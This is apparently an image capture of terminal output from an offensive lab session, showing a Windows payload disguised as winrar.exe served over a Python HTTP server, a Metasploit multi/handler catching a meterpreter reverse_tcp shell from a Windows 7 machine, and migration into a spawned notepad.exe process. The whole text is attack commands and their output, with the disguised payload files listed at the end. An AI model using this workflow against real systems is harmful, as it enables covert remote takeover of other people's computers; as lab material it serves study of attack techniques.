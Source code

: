 ```
Final size of exe file: 3222736 bytes
```

```
┌──(root㉿kali)-[~/payloads/Windows_Payloads]
└─# python2 -m SimpleHTTPServer 80
Serving HTTP on 0.0.0.0 port 80 ...
```

```
msf6 > use multi/handler
[*] Using configured payload windows/meterpreter/reverse_tcp
msf6 exploit(multi/handler) > set LHOST 192.168.248.148
LHOST => 192.168.248.148
msf6 exploit(multi/handler) > set LPORT 1234
LPORT => 1234
msf6 exploit(multi/handler) > run

[*] Started reverse TCP handler on 192.168.248.148:1234 
```

```
[*] Sending stage (175686 bytes) to 192.168.248.150
[*] Meterpreter session 1 opened (192.168.248.148:1234 -> 192.168.248.150:49273) at 2023-01-16 04:53:49 -0500

meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```

```
meterpreter > run post/windows/manage/migrate

[*] Running module against IEWIN7
[*] Current server process: winrar.exe (2476)
[*] Spawning notepad.exe process to migrate into
[*] Spoofing PPID 0
[*] Migrating into 1932
[+] Successfully migrated into process 1932
```

```
meterpreter > sysinfo
Computer        : IEWIN7
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
meterpreter > ls
Listing: C:\Users\IEUser\Downloads
==================================

Mode              Size     Type  Last modified              Name
----              ----     ----  -------------              ----
100666/rw-rw-rw-  282      fil   2022-10-08 23:04:31 -0400  desktop.ini
100777/rwxrwxrwx  73802    fil   2023-01-16 01:01:05 -0500  encodedx86.exe
100777/rwxrwxrwx  73802    fil   2023-01-14 19:35:23 -0500  payloadx86.exe
100777/rwxrwxrwx  3222736  fil   2023-01-16 20:49:16 -0500  winrar.exe
```
